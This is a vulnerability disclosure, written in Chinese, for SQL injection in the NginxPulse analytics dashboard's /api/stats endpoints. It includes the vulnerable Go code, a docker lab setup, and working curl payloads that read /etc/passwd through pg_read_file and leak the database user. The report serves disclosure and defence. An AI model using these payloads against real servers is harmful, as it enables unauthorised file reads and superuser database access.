

# NginxPulse 漏洞报告

软件名称：NginxPulse

开发者或厂商：likaia

代码仓库：https://github.com/likaia/nginxpulse

## 1. /api/stats/:type SQL 注入

简要描述：攻击者可通过 `/api/stats/:type` 的 `id` 参数注入任意 SQL。

影响版本：1.5.0 ~ 1.6.24

前置条件：默认情况下无需任何凭据；若目标配置了访问密钥（`system.accessKeys`），则需要持有该访问密钥。

### 漏洞成因

`/api/stats/:type` 由 `parseStatsQuery` 解析参数，其中 `id` 从查询字符串取得，未经格式校验就赋给 `query.WebsiteID`：

```go
// internal/analytics/stats.go:214-221    commit 0d41264ae4
	websiteID, err := getRequiredString(params, "id")
	if err != nil {
		return query, err
	}
	query.WebsiteID = websiteID
```

统计模块把 `WebsiteID` 当作表名的一部分，用 `fmt.Sprintf` 拼进 SQL。以 `overall` 为例：

```go
// internal/analytics/overall_stats.go:219-225    commit 0d41264ae4
	aggQuery := sqlutil.ReplacePlaceholders(fmt.Sprintf(`
        SELECT 
            COALESCE(SUM(pv), 0) as pv,
            COALESCE(SUM(traffic), 0) as traffic
        FROM "%s_agg_daily"
        WHERE day >= ? AND day <= ?`,
		websiteID))
```

`id` 落在双引号内部，攻击者可以用一个双引号闭合标识符，再追加 `JOIN` 子句。`--` 只注释到行尾，末尾的 `_agg_daily"` 被注释掉，下一行的 `WHERE` 仍然有效，占位符数量保持不变。以读取 `/etc/passwd` 为例，服务端实际执行的语句如下：

```
        FROM "45c0_agg_daily" JOIN (SELECT 1) z ON 1=(CAST((substr(pg_read_file('/etc/passwd'),1,160)) AS int)) --_agg_daily"
        WHERE day >= $1 AND day <= $2
```

PostgreSQL 把字符串转换成整数失败时，会把原始字符串写进错误消息。把任意子查询的结果拼进 `CAST(... AS int)`，就能从 HTTP 响应中逐段读出数据。

官方镜像内置 PostgreSQL，容器启动时以 `initdb --username=nginxpulse` 初始化（`entrypoint.sh:8`、`entrypoint.sh:436`），应用使用的数据库账号是集群超级用户。该账号可以调用 `pg_read_file`、`lo_from_bytea`、`lo_put`、`lo_export`、`pg_terminate_backend` 等函数，注入因此等价于数据库超级用户权限。

同一个接口家族还有一处同类缺陷。`location` 统计的 `locationType` 参数同样未经校验，被直接拼成列名：

```go
// internal/analytics/client_stats.go:99-111,188-194    commit 0d41264ae4
	locationType = query.ExtraParam["locationType"].(string)
	switch locationType {
	case "domestic", "city":
		statsType = "domestic"
	case "global":
		statsType = "global"
	default:
		statsType = locationType
	}
	...
		selectExpr = "loc." + statsType
```

此处的结果直接出现在响应里，不需要错误回显：

```bash
curl -s -G http://127.0.0.1:8088/api/stats/location \
  --data-urlencode "id=45c0" --data-urlencode "timeRange=7d" \
  --data-urlencode "limit=5" \
  --data-urlencode "locationType=global||'|'||current_user"
{"key":["未知|nginxpulse"],"pv":[2],"uv":[2],"pv_percent":[100],"uv_percent":[100]}
```

### 复现环境搭建

实验环境用官方 compose 文件部署：

```bash
mkdir nginxpulse && cd nginxpulse
wget https://raw.githubusercontent.com/likaia/nginxpulse/v1.6.24/docker-compose-simple.yml
mkdir -p docker_local/logs
cat > docker_local/logs/access.log <<'EOF'
203.0.113.10 - - [30/Oct/2026:10:00:00 +0800] "GET /index.html HTTP/1.1" 200 512 "https://example.com/" "Mozilla/5.0"
203.0.113.11 - - [30/Oct/2026:10:01:00 +0800] "GET /about HTTP/1.1" 200 1024 "-" "Mozilla/5.0"
EOF
docker compose -f docker-compose-simple.yml up -d
```

若宿主机目录的 UID/GID 与 compose 里的 `PUID`、`PGID` 不一致，按官方文档调整这两个变量。

浏览器打开 `http://127.0.0.1:8088`，在初始化向导中新增站点 `demo.example.com`，日志路径填 `/share/logs/*.log`，访问密钥留空，点击保存并重启。

### 复现过程

配置完成后，面板正常显示统计数据：



`GET /api/websites` 返回站点 id：

```bash
$ curl -s http://127.0.0.1:8088/api/websites
{"websites":[{"id":"45c0","name":"demo.example.com"}]}
```

把 `id` 换成注入 payload，读取 `/etc/passwd`：

```bash
$ curl -s -G http://127.0.0.1:8088/api/stats/overall \
    --data-urlencode "timeRange=7d" \
    --data-urlencode "id=45c0_agg_daily\" JOIN (SELECT 1) z ON 1=(CAST((substr(pg_read_file('/etc/passwd'),1,160)) AS int)) --"
{"error":"查询失败: 获取总体统计失败: 查询总体统计数据失败: ERROR: invalid input syntax for type integer: \"root:x:0:0:root:/root:/bin/sh\nbin:x:1:1:bin:/bin:/sbin/nologin\ndaemon:x:2:2:daemon:/sbin:/sbin/nologin\nlp:x:4:7:lp:/var/spool/lpd:/sbin/nologin\nsync:x:5:0:sync:\" (SQLSTATE 22P02)"}
```


